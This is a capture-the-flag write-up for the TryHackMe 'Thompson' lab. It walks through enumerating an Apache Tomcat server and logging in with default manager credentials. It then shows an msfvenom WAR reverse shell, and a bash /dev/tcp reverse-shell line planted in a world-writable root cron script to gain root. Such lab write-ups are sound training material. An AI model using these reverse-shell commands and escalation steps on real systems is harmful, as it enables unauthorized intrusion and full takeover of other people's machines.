

# Thompson
**Date:** May 30th 2022

**Author:** j.info

**Link:** [**Thompson**](https://tryhackme.com/room/bsidesgtthompson) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- user.txt
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.2.24`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
|_http-open-proxy: Proxy might be redirecting requests
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.2.24 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/docs                 (Status: 200) [Size: 16585]
/examples             (Status: 200) [Size: 1126] 
/manager              (Status: 401) [Size: 2473]
/RELEASE-NOTES.txt    (Status: 200) [Size: 7063]
```

<br>

## Website Digging

Visiting the main page:



Looking at **/docs** shows us Tomcat documentation. **/examples** shows us Tomcat examples for servlets, JSP, and websockets.

**/manager** is a login page:


Not having any credentials yet I click cancel and am presented with the following screen:


A username and password is listed so I decide to try that on the login page again, and it works. We get the following:


Of particular interest is the fact that we can upload and deploy WAR files! It's possible to create reverse shells using **msfvenom** and have them be in the WAR format. You can [**read more about that here**](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/).

I create our shell like this:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.6.127.197 LPORT=4444 -f war -o rev-shell.war`

```
Payload size: 1104 bytes
Final size of war file: 1104 bytes
Saved as: rev-shell.war
```

Now that we have that taken care of let's see about getting a shell.

<br>

## System Access

I click the browse button under the WAR file to deploy section and navigate to the file we just created, select it, and then click deploy. After doing so a new item shows up in the applications section right above the deploy box named **/rev-shell**:


I start a listener up on my system and then click the **/rev-shell** which connects back to us:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.24] 38936
whoami
tomcat
hostname
ubuntu
```

I fix the shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

CTRL + Z to background shell

`stty raw -echo; fg`

`stty -rows 49 -columns 103`

And we have a much nicer shell to work with.

```
tomcat@ubuntu:/$
```

<br>

## System Enumeration

`sudo -l` requires a password so no luck there yet.

The following users have login shells:

```
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:tom,,,:/home/jack:/bin/bash
tomcat:x:1001:1001::/opt/tomcat:/bin/bash
```

Our `id` shows nothing out of the ordinary:

```
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

**Jack** however has additional privileges:

```
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

Checking out **/home** shows us a directory for **jack**. Looking in that gives us our first flag, the **user.txt** file:

`wc -c user.txt`

```
33 user.txt
```

Looking at **cron jobs** with `less /etc/crontab` shows us an interesting looking job running from the jack home directory:

```
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh

```

So it will run it as root. Checking to see if we have write permissions to that file:

```
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

Looking at the script:

```
#!/bin/bash
id > test.txt
```

<br>

## Root

I modify the shell script to the following:

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.6.127.197/5555 0>&1
```

And then setup a listener to catch the connection. After a few seconds we get a shell back as root:

```
listening on [any] 5555 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.24] 44890
bash: cannot set terminal process group (16284): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack#
```

In the root directory is our last flag, **root.txt**.

`wc -c /root/root.txt`

```
33 /root/root.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding default **Tomcat credentials** and logging into the **/manager** console with them
- The **/manager** console allows us to deploy new **WAR** files and we create a **reverse shell with msfvenom** and then upload and deploy it to establish an initial foothold on the box
- Finding a **cron job** that executes a shell script in a users home directory as root, and we had the ability to modify the shell script which was done to send a **reverse shell** back to us as **root**

<br>

Many thanks to:
- [**stuxnet**](https://tryhackme.com/p/stuxnet) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)